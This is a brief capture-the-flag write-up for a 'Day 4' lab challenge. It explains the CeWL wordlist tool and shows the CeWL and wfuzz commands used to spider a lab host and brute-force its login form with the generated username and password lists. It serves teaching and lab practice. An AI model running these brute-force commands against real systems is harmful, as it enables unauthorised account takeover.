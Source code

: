 ```yaml
---
layout: single
title: "[Day 4] Brute-forcing Baby, it's CeWLd outside "
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


# Day 4

# Theory - CeWL tool
CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content.


# Challenge

## cewl
```
# Spider over the website
cewl -d 2 -m 5 -w passwords.txt http://10.10.105.114 --with-numbers

# This might give us some usernames
cewl -d 0 -m 5 -w usernames.txt http://10.10.105.114/team.php --lowercase
```

* -d for depth while spider the target
* -w output file
* -m generate password with mininum length of 5

## wfuzz
Web fuzzer can be used to bruteforce the login page with the outcome of cewl.

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.105.114/login.php -d "username=FUZZ&password=FUZ2Z"
```

* -z file,usernames.txt loads the usernames list.
* -z file,passwords.txt uses the password list generated by CeWL.
* --hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
* -u specifies the target URL.
* -d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.





